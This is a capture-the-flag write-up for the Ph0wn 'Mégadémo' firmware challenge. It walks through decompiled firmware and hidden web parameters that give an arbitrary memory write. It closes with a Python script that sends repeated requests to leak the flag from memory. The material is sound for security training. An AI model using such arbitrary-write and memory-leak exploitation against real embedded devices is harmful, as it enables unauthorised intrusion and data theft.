


# Mégadémo write-up

## Part 1

### Description

There's a board meeting at 2am. Pico le Croco needs to convince the board to give him lots of dollars. To do so, he first needs to discover a secret. Can you help him?

Important notice: Despite it embeds a HTTP server, this challenge runs on a micro-controller. Not on a dual XEON with 512GB of RAM. Please do not use DirBuster-like tools or any security scanner, it’ll not pop any flag and may crash the challenge.

Challenge is running here: http://megademo.ph0wn.org Download the firmware and ... find the flag!

### Solution

The description talk about a secret on in the website, so I was looking for some webpages in the strings of the firmware.
Using `ghidra`, and looking into the strings used by the firmware, I found the strings _/h1dden.shtml_
So I went to the page http://megademo.ph0wn.org/h1dden.shtml and at the bottom stands the first flag: **ph0wn{youFoundThePage!}**

## Part 2

### Description

In a second stage, to get lots of dollars, Pico le Croco needs to exploit the board.

* Challenge is running here: http://megademo.ph0wn.org
* Download the firmware, reverse it, exploit it and ... find the second flag!

### Solution

Now we have to reverse the firmware in order to exploit it.
This is a firmware, so the first thing I did was to localize the flag in the firmware.
So I searched the strings with _ph0wn_ in its content.
I found two strings _ph0wn{YYYYYYYYYYYYYY}_ and _ph0wn{XXXXXXXXXXXXXXXX}_.
The seconds appears in the body of a web page, so I deduced that it corresponding to the first flag we found.
So I focused myself on leaking the second flag.
It is located at the address _0x60019b38_.

First, I decided to watch how web pages are managed, so I was looking for the strings that ends by _.shtml_.
In the references of the page _/demo.shtml_, I found the following function:
```c
char * FUN_60003078(undefined4 param_1,int param_2,char **param_3,int *param_4) {
  int iVar1;
  int local_c;
  
  FUN_600191c8(&DAT_2000313e,&DAT_600199c4);
  FUN_600191c8(&DAT_2000314a,&DAT_600199c8);
  for (local_c = 0; local_c < param_2; local_c = local_c + 1) {
    iVar1 = FUN_60019256(param_3[local_c],"zoom",4);
    if (iVar1 == 0) {
      FUN_600192ac(&DAT_2000313e,param_4[local_c],0xb);
    }
    else {
      iVar1 = FUN_60019256(param_3[local_c],"speed",5);
      if (iVar1 == 0) {
        FUN_600192ac(&DAT_2000314a,param_4[local_c],0xb);
      }
    }
  }
  return "/demo.shtml";
```
In this function, we see two strings (_zoom_ and _speed_), and I recognized the two options give to this page when we enter two values on the index page.




So I reversed quickly the function `FUN_60019256` and I recognized the `strncmp` function.

#### Hidden option's

After that, I was watching for other pages and more particular the page _/h1dden.shtml_ and I found the following function.

```c
char * target(undefined4 param_1,int nb_arg,char **arg,char **param_4) {
  byte bVar1;
  int iVar2;
  char **ppcStack40;
  char **h1dden_args;
  int narg;
  undefined4 uStack28;
  char ***pppcStack20;
  uint uStack16;
  int pos;
  
  uStack16 = 0;
  pppcStack20 = (char ***)0x0;
  ppcStack40 = param_4;
  h1dden_args = arg;
  narg = nb_arg;
  uStack28 = param_1;
  FUN_600191c8(&DAT_20003156,&DAT_600199e8);
  DAT_20003164 = (undefined4 *)&DAT_20010000;
  DAT_20003168 = 0xcafec0ca;
  DAT_2000316c = (undefined **)&DAT_2000316c;
  for (pos = 0; pos < narg; pos = pos + 1) {
    iVar2 = strncmp(h1dden_args[pos],"debug",5);
    if (iVar2 == 0) {
      if (((byte)*ppcStack40[pos] < 0x30) || (0x32 < (byte)*ppcStack40[pos])) {
        DAT_20003156 = 0x33;
      }
      else {
        FUN_600192ac(&DAT_20003156,ppcStack40[pos],0xb);
        bVar1 = *ppcStack40[pos];
        if (bVar1 == 0x32) {
          DAT_2000316c = &PTR_entry+1_60002004;
        }
        else {
          if (bVar1 < 0x33) {
            if (bVar1 == 0x30) {
              DAT_2000316c = (undefined **)&pppcStack20;
              pppcStack20 = &ppcStack40;
            }
            else {
              if (bVar1 == 0x31) {
                DAT_2000316c = (undefined **)&DAT_60002000;
              }
            }
          }
        }
      }
    }
    else {
      iVar2 = strncmp(h1dden_args[pos],"pokeAdr",7);
      if (iVar2 == 0) {
        uStack16 = uStack16 | 1;
        FUN_600190f2(ppcStack40[pos],"%X",&DAT_20003164);
      }
      else {
        iVar2 = strncmp(h1dden_args[pos],"pokeValue",9);
        if (iVar2 == 0) {
          uStack16 = uStack16 | 2;
          FUN_600190f2(ppcStack40[pos],"%X",&DAT_20003168);
        }
      }
    }
  }
  if (uStack16 == 3) {
    *DAT_20003164 = DAT_20003168;
  }
  return "/h1dden.shtml";
}
```

So it seems that this page can take 3 options: _debug_, _pokeAdr_ and _pokeValue_.

#### The _debug_ option

First thing, I decided to test the _debug_ option in order to see if it gives to me some information.
So I used enter the url http://megademo.ph0wn.org/hidden.shtml?debug=true in my web browser and I got nothing new.
So I was looking for the part where the _debug_ option seems to be managed.  

Then I recognized some typical ASCII values: 0x30, 0x31, 0x32, 0x33 which correspond to the characters '0', '1', '2', '3'.
The comparisons are looking for an argument between 0 and 2 according to this comparison.
```c
if (((byte)*ppcStack40[pos] < 0x30) || (0x32 < (byte)*ppcStack40[pos])) {
    DAT_20003156 = 0x33;
} else {
    // Do some stuff
}
// End of the "debug" part
```
So I tried this url http://megademo.ph0wn.org/~h1dden.shtml?debug=1
But still nothing.

After a while, I saw that the for the _demo_ page, the link used has a _.cgi_ extension.  
An Internet research gave that it is an interface for generating web pages and that is the shortcut for _Common Gateway Interface_.

So I tried the url http://megademo.ph0wn.org/h1dden.cgi?debug=1 and I got a 404.

However a small research in the strings of the binary show that the expected webpage is _h1dd3n.cgi_ instead of _h1dden.cgi_
Then I try the url http://megademo.ph0wn.org/h1dd3n.cgi?debug=1 .  

Jackpot ! The last line of the web page changed and I got a new string:  
`Unknown address: 	0xDEADBEEF` => `Stack start (0x60002000): 	0x20020000`

#### Hidden page

So I was looking for the string _Stack start_ and I found a new function:
```c
undefined2 FUN_600032d0(undefined4 param_1,undefined4 param_2) {
  undefined2 uVar1;
  uint uVar2;
  undefined2 local_a;
  
  local_a = 0;
  switch(param_1) {
  /*
    Some useless stuff
  */
  default:
    switch(param_1) {
  /*
    Some useless stuff
  */
    case 0xd:
      switch(DAT_20003156) {
      case 0x30:
        uVar1 = FUN_60015dec(param_2,0xc0,"Stack pointer");
        return uVar1;
      case 0x31:
        uVar1 = FUN_60015dec(param_2,0xc0,"Stack start (0x60002000)");
        return uVar1;
      case 0x32:
        uVar1 = FUN_60015dec(param_2,0xc0,"Reset vector (0x60002004)");
        return uVar1;
      case 0x33:
        uVar1 = FUN_60015dec(param_2,0xc0,"Unknown address");
        return uVar1;
      }
      break;
    case 0xe:
      uVar2 = (uint)DAT_20003156;
      if (uVar2 == 0x33) {
        uVar1 = FUN_60015dec(param_2,0xc0,"0x%X",0xdeadbeef);
        return uVar1;
      }
      if (uVar2 < 0x34) {
        if (uVar2 == 0x30) {
          uVar1 = FUN_60015dec(param_2,0xc0,"0x%X",DAT_2000316c);
          return uVar1;
        }
        if ((0x2f < uVar2) && (uVar2 - 0x31 < 2)) {
          uVar1 = FUN_60015dec(param_2,0xc0,"0x%X",*DAT_2000316c);
          return uVar1;
        }
      }
    }
    uVar1 = FUN_60015dec(param_2,0xc0,"%d",0);
    return uVar1;
  case 0xbad1abe1:
    break;
  }
  uVar1 = FUN_60015dec(param_2,0xc0,"%d",local_a);
  return uVar1;
}
```
We retrieve here the 4 same bytes values as in the previous function and we see that for the value '1' is associated the string _Stack start (0x60002000)_.
In the second part of the function (`case 0xe`), the function `FUN_60015dec` seems to be `snprintf` or something similar.

#### pokeAdr, pokeValue options

In the usage of the options _pokeAdr_ and _pokeValue_, we can find two flag activations:
```c
uStack16 = uStack16 | 1; // pokeAdr
uStack16 = uStack16 | 2; // pokeValue
```
And there is a third reference to `uStack16` in this function.
```c
if (uStack16 == 3) {
    *DAT_20003164 = DAT_20003168;
}
```
So if we give the options _pokeAdr_ and _pokeValue_, the firmware will write the 4 bytes located at the address _0x20003168_ at the address stored at the location _0x20003164_.
When the firmware deals with this two options, we observe a call to the function `FUN_600190f2`
```c
FUN_600190f2(ppcStack40[pos],"%X",&DAT_2000316(4-8));
```
This function looks like the `sscanf` function.
```c
int sscanf(const char *restrict str, const char *restrict format, ...);
```
So it seems that with this 2 options, we are able to write anywhere in the memory of the firmware.  
Now we have to find a worthwhile address to write.

We have seen previously a [function](#hidden-page) that is used to generate the "hidden" page.  
So we are going to see what is printed: 
```c
      uVar2 = (uint)DAT_20003156;
      /* Some stuff here */
      if (uVar2 < 0x34) {
        if (uVar2 == 0x30) {
          uVar1 = FUN_60015dec(param_2,0xc0,"0x%X",DAT_2000316c);
          return uVar1;
        }
        if ((0x2f < uVar2) && (uVar2 - 0x31 < 2)) {
          uVar1 = FUN_60015dec(param_2,0xc0,"0x%X",*DAT_2000316c);
          return uVar1;
        }
      }
    }
```
So it seems that we can print the content of the address stored at the address _0x2000316c_.  
So we need that the value stored at the address _0x20003156_ should be '1' or '2'.  
So we have to look when this variable is set and we have seems during the analyze of the [debug option](#the-debug-option), that we are using this address to store the "debug level".

So, if everything is going well, with _debug=1_, _pokeAdr=2000316c_ and _pokeValue=200316c_, we should have printed at the bottom of the web page:
```
Stack start (0x60002000)                0x2000316C
```
and Jackpot !



### The exploit

Just here, we have to use the address of the flag found at the start of the solution of the second part.  
So with few request, we are able to leak all the flag: **ph0wn{easierWithPeek}**
```python
import requests
from struct import pack

p32 = lambda x : pack("<I", x)

url_template = "http://megademo.ph0wn.org/h1dd3n.cgi?debug=1&pokeAdr=2000316C&pokeValue="
addr = 0x60019b38

flag = b''


while b'}' not in flag:
    r = requests.get(url_template + hex(addr)[2:])
    for l in r.content.decode().split('\n'):
        if '<td>0x' in l:
            break
    l = l.replace('\t', '').replace('<td>','').replace('</td>','')
    flag += p32(int(l, 16))
    addr += 4

print("The flag is:", flag.decode())
```
